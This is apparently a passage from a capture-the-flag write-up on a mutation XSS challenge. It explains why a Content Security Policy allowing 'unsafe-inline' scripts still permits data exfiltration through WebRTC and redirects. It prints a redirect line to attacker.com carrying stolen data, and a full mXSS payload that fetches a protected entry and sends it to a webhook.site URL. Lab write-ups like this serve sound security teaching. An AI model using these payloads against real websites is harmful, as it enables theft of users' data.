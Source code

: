 > CSP (Content Security Policy) is a browser feature that will try to **minimize the impact** of an XSS vulnerability.

Let's break down the above CSP!
- Directive [`default-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy#fetch_directives):
    - Description: Serves as a fallback for the other [fetch directives](https://developer.mozilla.org/en-US/docs/Glossary/Fetch_directive).
    - Source: [`self`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy#self). The resource can only be loaded from the **same origin**.
- Directive [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src)
    - Description: Specifies valid sources for JavaScript
    - Source: [`unsafe-inline`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy#unsafe-inline). Allow all resources to execute JavaScript code.

Since directive `script-src`'s source is `unsafe-inline`, we can absolutely execute arbitrary JavaScript code, like via previously mentioned mXSS.

However, since *most* directives will fall back to the `default-src` directive, it's hard to exfiltrate or send something to external origins due to the `self` source. Well, I said... *most*. Of course, there are some exceptions.

For example, in [`connect-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/connect-src) directive, even if this directive's source is `self`, WebRTC will not get restricted by the CSP. (See this GitHub issue, [WebRTC bypass CSP connect-src policies](https://github.com/w3c/webrtc-nv-use-cases/issues/35))

Another example is to simply redirect the victim to our attacker website. Since directive `script-src` didn't deny us to execute arbitrary JavaScript code, we can redirect the victim like this:

```javascript
document.location = `http://attacker.com/?data=${data}`;
```

This is because currently there's no CSP directives that will restrict redirect origin.

## Exploitation

Armed with above information, we can create a new mutation entry with the following mXSS payload in the details:

```html
<!DOCTYPE html system "><img src=x onerror='fetch(`/mutation.php?id=1`).then(response => response.text()).then(flagResponseText => location = `//webhook.site/7b2499ee-4e16-4d16-8077-64894613930d/?data=${encodeURIComponent(flagResponseText)}`);'>">
```

In this payload, it'll send a GET request to `/mutation.php?id=1` to get the protected flag entry. Then, it'll redirect the victim to our attacker website (In this case it's [webhook.site](webhook.site))

> Note: In the above payload, the `//` in the URL means its a relative URL, so that you don't need to provide the URL scheme.
